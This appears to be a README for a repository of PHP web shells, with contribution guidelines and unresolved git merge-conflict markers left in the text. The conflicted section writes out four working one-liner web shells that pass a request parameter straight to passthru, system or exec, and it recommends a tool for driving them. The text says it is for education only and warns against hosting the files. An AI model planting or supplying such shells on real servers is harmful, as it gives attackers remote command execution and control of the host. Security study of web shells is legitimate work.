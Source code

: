 Contributing
============
To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).




php-webshells
=============

<<<<<<< HEAD
Common PHP shells. Do not put these on a publicly-accessible webserver.

These are provided for education purposes only.
=======
Common php webshells. Do not host the file(s) in your server!

++++++++++++++++++++++++++

Though I recommend one-liners like 

<?php echo passthru($_GET['cmd']); ?>

(Not a full fledged webshell, but works fine)

=================================================================

You can try WebHandler for one-liners.

WebHandler.py works for POST and GET requests:

    <?php system($_GET['cmd']); ?>
    <?php passthru($_REQUEST['cmd']); ?>
    <?php echo exec($_POST['cmd']); ?>


>>>>>>> e474a21202962d29bda156e5f384499d3b993645
